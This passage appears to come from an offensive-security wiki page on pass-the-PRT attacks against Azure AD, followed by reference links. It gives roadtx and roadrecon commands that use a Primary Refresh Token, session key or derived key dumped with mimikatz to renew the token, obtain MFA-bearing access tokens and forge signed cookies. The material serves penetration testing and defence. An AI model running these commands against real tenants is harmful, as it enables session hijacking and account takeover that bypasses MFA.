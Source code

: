 ```bash
roadtx prt -a renew --prt <PRT From mimikatz> --prt-sessionkey <clear key from mimikatz>
```

- Now we can **request tokens** using the interactive browser with `roadtx browserprtauth`. If we use the `roadtx describe` command, we see the access token includes an MFA claim because the PRT I used in this case also had an MFA claim.

```bash
roadtx browserprtauth
roadtx describe < .roadtools_auth
```

<figure><img src="../../../images/image (44).png" alt=""><figcaption></figcaption></figure>

#### Option 3 - roadrecon using derived keys

Having the context and the derived key dumped by mimikatz, it's possible to use roadrecon to generate a new signed cookie with:

```bash
roadrecon auth --prt-cookie <cookie> --prt-context <context> --derives-key <derived key>
```

## References

- [https://stealthbits.com/blog/lateral-movement-to-the-cloud-pass-the-prt/](https://stealthbits.com/blog/lateral-movement-to-the-cloud-pass-the-prt/)
- [https://dirkjanm.io/abusing-azure-ad-sso-with-the-primary-refresh-token/](https://dirkjanm.io/abusing-azure-ad-sso-with-the-primary-refresh-token/)
- [https://www.youtube.com/watch?v=x609c-MUZ_g](https://www.youtube.com/watch?v=x609c-MUZ_g)

{{#include ../../../banners/hacktricks-training.md}}




